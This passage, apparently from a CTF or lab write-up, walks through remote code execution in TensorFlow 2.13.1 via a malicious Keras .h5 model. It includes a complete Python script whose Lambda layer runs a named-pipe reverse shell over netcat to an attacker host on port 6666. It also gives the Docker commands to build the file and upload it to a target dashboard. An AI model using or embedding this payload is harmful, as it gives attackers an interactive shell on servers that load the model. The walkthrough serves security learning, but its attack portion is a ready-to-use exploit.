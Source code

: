 
We can find that this uses `tensorflow-cpu 2.13.1`, if we search for rce regarding TensorFlow, we can check this:


BLOG: https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model

Let's begin exploitation to reproduce the steps.


# EXPLOITATION
---

Based on the article, we can do this:

![](cybersecurity/images/Pasted%2520image%252020250627151445.png)

So, we need to create a `.h5` file with the following script in order to import the os library to achieve the RCE:

```PYTHON
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc IP 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

In order for the script to work, we need to build the image, we got the requirements and the dockerfile so we can do this on the same directory:

If you don't have docker installed on kali, you can do:

```bash
sudo apt update
sudo apt install -y docker.io
sudo systemctl enable --now docker
```

Once it downloads, we can execute the exploit with:

```python
docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 exploit.py
```

Now, we will get our `exploit.h5` file which we can upload on the dashboard:

![](cybersecurity/images/Pasted%2520image%252020250627154846.png)
